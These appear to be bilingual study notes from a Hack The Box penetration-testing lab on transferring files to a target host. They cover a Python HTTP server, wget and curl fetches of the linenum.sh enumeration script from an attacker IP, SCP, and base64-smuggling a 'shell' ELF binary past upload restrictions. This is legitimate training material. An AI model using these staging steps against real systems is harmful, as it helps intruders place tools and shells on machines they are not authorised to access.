 ## Using wget
There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

  Transferring Files

```shell-session
htb[/htb]$ cd /tmp
htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
wget http://10.10.14.1:8000/linenum.sh
```
تحمّل الملف linenum.sh من جهازك (IP بتاعك 10.10.14.1) من البورت 8000 وتحفظه بنفس الاسم
```
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
تحمّل الملف linenum.sh من جهازك (IP بتاعك 10.10.14.1) من البورت 8000 وتحفظه بنفس الاسم

---
## Using SCP

```shell-session
htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

---
## Using Base64
- لو في موقع مثلا بيمنع اننا نرفع ملف من عندنا للremote server فا احنا ممكن نعملها encode بالbase64
```shell-session
htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

----
## Validating File Transfers
- to validate the format of file type
```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

```
htb[/htb]$ md5sum shell
321de1d7e7c3735838890a72c9ae7d1d shell
```

we can run the same command on remote host
```shell-session
user@remotehost$ md5sum shell
321de1d7e7c3735838890a72c9ae7d1d shell
```